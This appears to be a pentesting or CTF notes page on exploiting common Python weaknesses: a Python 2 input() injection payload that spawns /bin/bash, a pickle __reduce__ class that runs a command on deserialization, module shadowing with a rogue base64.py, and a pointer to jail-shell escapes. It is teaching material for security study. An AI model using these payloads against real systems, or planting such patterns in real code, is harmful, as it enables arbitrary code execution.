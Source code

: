 # Python

Python is a language powering an extraordinary number of applications, but here we're just going to focus on very common coding errors you're likely to find. These can be useful in cases of both web applications as well as local and exploiting any of these is incredibly context specific.

## python2 input

In python 2, the input function worked in an interesting manner. It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function. However, this also allowed any arbitrary code to be injected. In cases where you have a python 2 style input mechanism, simply write the following:

```python
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it, so this attack is no longer possible.

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed. This is because the reduce method defines how the object itself is de-serialized, and so will be executed when pickle.loads is called.  The `BadPickle` class below, when pickle and loaded, will execute the chosen cmd.

```python
import subprocess
cmd = ['ls', '-la']
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (cmd,))
print cPickle.dumps(BadPickle())
```

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/    
](https://blog.nelhage.com/2011/03/exploiting-pickle/%20)[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/    
](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/%20)[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## Module Overwrite

Consider the following program:

```python
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```python
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```python
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules. Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Jail Shells

The topic of python jail shells risks becoming very weighty due to the sheer mass of methods different CTF creators or Pentesters have found to bypass them, but as they make for almost standard fare in CTF challenges, I feel like a collection of different methods wouldn't go amiss.

[PlaidCTF - PyJail with Character Restrictions](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/)



